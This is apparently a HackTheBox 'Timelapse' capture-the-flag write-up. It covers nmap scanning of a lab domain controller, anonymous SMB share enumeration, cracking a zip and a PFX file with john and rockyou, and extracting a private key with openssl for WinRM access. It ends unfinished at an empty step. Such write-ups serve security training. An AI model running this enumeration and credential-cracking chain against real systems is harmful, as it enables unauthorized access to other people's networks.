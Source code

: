 # Timelapse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ae9f7ae-3c2d-47b0-96c8-611d44ecf6ce)


## Lesson learned:
- Enumerate public smb share with **smbclient**.
- Cracking Personal Information Exchange (PFX) file.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.152 --min-rate 1000 -Pn 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-29 02:11 PST
Nmap scan report for 10.10.11.152
Host is up (0.019s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-29 18:13:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2023-11-29T18:15:22+00:00; +7h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-29T18:14:44
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 320.43 seconds
```

1. Based from the nmap results, it opens few ports (which is not good) and it runs web application at port 5986.
2. Noticed there are SMB share opens, let's enumerate it with **smbclient**.

> Using smbclient, for password using your own machine password.

```
smbclient -L //timelapse.htb/
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ smbclient -L //timelapse.htb/
Password for [WORKGROUP\brandy]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to timelapse.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

3. Nice there's `ADMIN$` sharename, but the only sharename we can access without credential is `Shares`.

```
smbclient //timelapse.htb/Shares
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/164a12a2-9dc5-429e-8895-73e6c381f3e1)


4. After listing all files inside `Dev` directory, found a .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90b3257a-76ba-4d73-a210-d624fe8693fd)


5. To download a file from smb share, we use `get` command.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b81c185-9b93-444c-9a64-d11334e368cb)


6. Interesting! Inside it, there's a .pfx file and it seems we need to use john to crack the password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/140376c2-ba5f-4a4c-bf42-5e015d8e033b)


> Using john

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ zip2john winrm_backup.zip > hash.txt                                                                                                                           
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

> supremelegacy

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-11-29 04:11) 4.761g/s 16559Kp/s 16559Kc/s 16559KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


7. Personal Information Exchange (PFX) also known as PKCS #12 or P12 file is a binary format file that is commonly used to store a private key with its associated public key and certificates.
8. It securely exporting and importing private keys and certificates, especially in scenarios where you need to move or back up a certificate and its associated private key.
9. They are often used in web server configurations, for example, when installing SSL/TLS certificates. The PFX format provides a convenient way to bundle all the necessary components securely into a single file.
10. Great! Now we know what **.pfx** file is, let's extract what inside it and used them with **WinRM** so we can login to the remote server without a password.

> Command to extract pfx file

#### NOTES:

```
For those who wonders why .pem (Privacy Enhanced Mail), because PEM file is a text file that typically contains one or more cryptographic elements,
encoded in the PEM format. The contents of a PEM file are encoded using Base64 encoding and are enclosed between
"-----BEGIN CERTIFICATE-----" and "-----END CERTIFICATE-----" (or a similar marker depending on the type of data).
```

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

11. It failed when I reused the previous password, hence let's crack it again using john.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/91600221-4507-4378-903e-5cdb6ece009d)


12. Anyway, inside john directory you shall found several python script which convert few file extension to **.john**. 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7d10ac0-3f38-483b-bca9-cd623f7fab9b)


> Run openssl command again using **thuglegacy**

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f82ad66-0bf5-4428-8d16-46a213e86285)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3db03f58-40fc-4959-87ba-59d9103e44a3)


13. 


## IMPORTANT LINKS

```

```




